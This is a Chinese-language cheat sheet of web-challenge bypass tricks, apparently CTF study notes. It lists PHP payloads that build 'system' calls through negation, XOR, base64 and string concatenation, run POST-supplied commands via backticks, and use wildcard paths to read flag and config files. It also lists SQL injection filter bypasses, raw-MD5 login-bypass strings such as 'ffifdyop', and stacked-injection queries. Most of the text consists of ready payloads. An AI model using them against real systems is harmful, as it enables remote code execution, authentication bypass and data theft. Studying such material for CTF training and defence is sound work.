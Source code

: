 ```
                 preg_match 可以用数组绕过见 NSSCTF prize_p1 脚本2
                 str_replace(ar1, ar2, "he") , 可用数组绕过, 1对1替换。见 ### str_replace
                 exec 函数可以同时执行多个命令 , 只需要用 \n 分隔即可

                 未过滤()取反绕过 $arg = "};(~(" . ~'system' . ")) (~(" . ~'cat Tru3flag.php' . "));//";
                 -- ctfshow 红包题第二弹（无数字字母RCE） -- 见下面
                    .表示 source
                    <?=是echo()的别名用法, 先用?>闭合一下，即?><?=`ls`;
                 -- ### [无字母数字webshell之提高篇  ?c=.+/???/????????[@-[]        //[@-[]表示A-Z之间
                 -- 用异或绕
                    eval("("%0b%08%0b%09%0e%06%0f"^"%7b%60%7b%60%60%60%60")();")     -- ("phpinfo")();
                 -- 二次编码绕过  php://base64 => php://bas%256564, 二次编码e => %2565
                 -- base_convert(696468,10,36);  => exec, 超过10会使用字母 - 见_writeup_web: love math
                 -- 动态函数 $function = "sayHello";$function();
                 -- exec+getheaders绕过, 见Love math
                 -- strlen($_GET[1])<4 见 nl/od -- ctfshow 【nl】难了
                 -- strlen(数组) == null, 可绕很多
                 -- tee file1 file2,  ls | tee file1
                 -- ### 过滤空格
                 -- ### 文件读取
                 -- ### 黑名单绕过
                 -- ### 绕过escapeshellcmd
                 -- ### basename 绕过 - php会把.和[解析成_，php特性
                 -- ### 无写入权限 - 见## 没有写入权限
                 -- ### 死亡die/exit绕过


        php绕过技巧 $a='sys';$b='tem';$d=$a.$b;$d('cat config.php');
                   ca""t
                   base64|$a = base64_decode('c3lzdGVt');$b=base64_decode('Y2F0IGNvbmZpZy5waHA=');$a($b);
                   assert闭合|assert(base64_decode(%27c3lzdGVtKCdjYXQgY29uZmlnLnBocCcp%27))?>|
                   POST传参|?c=echo `$_POST[1]`?>|然后POST中-- 1=cat config.php
                   POST传参|?c=echo `$_POST[1]`;|然后POST中-- 1=cat config.php
                   通配符?和数字没有过滤 -- preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c))
                         ?c=bin/base64 flag.php => ?c=/???/????64 ????????

```

### bypass-sql

```sql
by pass 空格 -- /**/|tab|
by pass ,
        1.将limit 0,1样式改为limit 1 offset 0。
        2.将substr(string,1,1)改为substr(string from 1 for 1)。
        SELECT SUBSTR('abc' from 1 for 1) # == SELECT SUBSTR('abc', 1,1)  # 'a'
        select substr((select group_concat(table_name) from information_schema.tables where table_schema=database())from 1 for 1)
by pass password ='".md5($password,true)."'";
        只要md5加密后的16进制转化为二进制时有 'or’xxxx，即可构成闭合语句： username ='admin' and password =' 'or 'xxxxx' 成功登陆
        两个答案
        1.ffifdyop  #转换后为 b"'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c"
        2.129581926211651571912466741651878684928
by pass  /select|update|delete|drop|insert|where|\./i   堆叠注入-强网杯随便注
    show,
    -1';show tables#
    -1';show columns from `1919810931114514`#
    -1';desc `1919810931114514`#       -- 显示列名
    -1';desc `words`#
    方式1.预编译
```